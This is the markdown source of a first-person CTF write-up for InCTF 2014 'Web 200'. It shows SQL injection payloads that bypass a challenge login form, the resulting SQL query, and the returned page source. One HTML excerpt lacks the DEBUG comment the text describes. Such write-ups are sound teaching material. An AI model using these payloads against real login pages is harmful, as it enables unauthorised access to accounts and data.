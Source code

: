 ```yaml
---
layout: post
title: InCTF 2014 - Web 200 Writeup
date: 2014-03-08 17:11:01.000000000 +05:30
type: post
published: true
status: publish
author: Nagesh Podilapu a.k.a H4rryp0tt3r
assetID: a650d3fe237471590633515db1337c83
---
```

This is my first CTF writeup.
In this challenge they gave a website like below with a simple yet stylish login form.
As usual first I tried basic sql injection with

{% highlight text %}
' or 1=1 #
{% endhighlight %}

{% include image.html url="/assets/a650d3fe237471590633515db1337c83/ro.png" description="Login page of the given challenge" %}


Then a page with a black background appeared with no text on screen, then I opened the source of that page and found some interesting comments.

{% highlight html %}
<!DOCTYPE html>
<html>
<style>
body{background: #373737 url("../img/bg.png") 0 0 repeat;}
</style>
<body>

{% endhighlight %}

After looking at that DEBUG comment, I tried injecting below code

{% highlight text %}
' or 1=1 ) #
{% endhighlight %}

Resulting query will look like this

{% highlight sql %}
SELECT * FROM login_users where (username='' or 1=1 ) # ' and password='example')
{% endhighlight %}

Yes, It worked well but just a blank page again, so I opened source code and found "Login successfull!" message this time.

{% highlight html %}
<!DOCTYPE html>
<html>
<style>
body{background: #373737 url("../img/bg.png") 0 0 repeat;}
</style>
<body>
<p>Login successful.</p>
</body>
</html>
{% endhighlight %}
